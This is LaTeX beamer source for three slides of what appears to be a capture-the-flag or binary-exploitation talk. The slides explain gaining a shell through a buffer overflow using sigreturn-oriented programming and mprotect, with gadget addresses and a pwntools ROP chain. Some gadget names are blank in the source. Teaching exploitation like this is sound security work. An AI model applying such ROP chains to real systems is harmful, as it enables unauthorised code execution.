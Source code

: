 \documentclass[aspectratio=169]{beamer}
\newcommand{\reg}[1]{\%\texttt{#1}}
\newcommand{\hex}[1]{\texttt{0x#1}}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Now what?}
    \begin{itemize}
        \item We have a buffer overflow and know correct offset
        \item How can we get a shell?
        \item The whole binary is read-only, nothing is writable :(
        \pause
        \item Use mprotect / mmap to create RWX region for shellcoding!
        \item mprotect / mmap have a lot of arguments and binary does not have a lot of ROP gadgets
        \item Use a sigreturn syscall to set all registers!
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{mprotect SROP}
    \begin{itemize}
        \pause
        \item First we need a  gadget: \hex{40127f}
        \item Next, we need a gadget (chain) for setting \reg{rax} to \hex{f} (15 in decimal)
        \pause
        \item Call , since \reg{rax} is return value!
        \item For this, we need to set \reg{rdi}, the first argument
        \item Can do this with the following two gadgets:
        \begin{itemize}
            \item {}: \hex{401186}
            \item {}: \hex{401260}
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{ROP Chain}
    \begin{codebox}{python}
frame = SigreturnFrame()
frame.rax = ... # setting up SROP here, explanation will come later

rop = ROP(exe)
rop.call(pop_rbx)
rop.raw(-constants.SYS_rt_sigreturn) # set rbx = -15
rop.raw("A"*8) # filler
rop.call(mov_rdi_rbx) # set rdi = rbx
rop.call(exe.symbols.fib) # call fib(rdi) = fib(-15) -> sets rax = 15
rop.call(syscall_ret) # jump to syscall ret gadget,
                      # since rax = 15 will execute sigreturn
rop.raw(frame) # sigreturn frame contents\end{codebox}
\end{frame}
\end{document}
